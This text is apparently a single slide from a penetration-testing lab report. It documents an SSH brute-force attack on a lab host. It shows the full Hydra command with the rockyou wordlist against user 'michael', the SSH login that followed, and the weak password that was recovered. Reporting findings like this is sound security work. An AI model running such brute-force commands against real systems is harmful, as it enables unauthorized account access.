

# Exploitation: 3 “User ID susceptible to Brute-Force attacks”
Summarize the following: Brute force attack against the username michael
How did you exploit the vulnerability?
Using Hydra software network logon cracker
ssh brute force attack on Target 1
host: 192.168.1.110
What did the exploit achieve?
User michael password found
Password: Michael (Not very creative)
Command
hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh
ssh login command: root@kali: ssh michael@192.168.1.110
michael@192.168.1.110’s password: michael
Result: Attacker can login to SSH using Michael’s credentials.
10